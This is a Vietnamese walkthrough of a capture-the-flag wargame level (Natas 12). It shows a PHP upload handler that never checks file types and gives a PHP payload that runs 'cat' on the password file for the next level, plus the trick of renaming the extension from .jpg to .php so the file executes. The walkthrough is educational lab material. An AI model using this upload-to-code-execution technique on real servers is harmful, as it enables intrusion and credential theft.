


View source code:
```
<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

Nhận thấy trong file này không thực hiên kiểm tra loại file được tải lên nên chúng ta hoàn toàn có thể thực hiên tải một file php lên để đọc password:

```
<?php    
  
system("cat /etc/natas_webpass/natas13");
  
?>  

```

Nhưng ở đây có một lưu ý là file tải lên sẽ được tự động lưu với phần mở rộng là .jpg nên chúng ta cần đổi jpg thành php để file này có thể được thực thi:



Sau khi file được tải lên chúng ta truy cập vào file và lấy password:


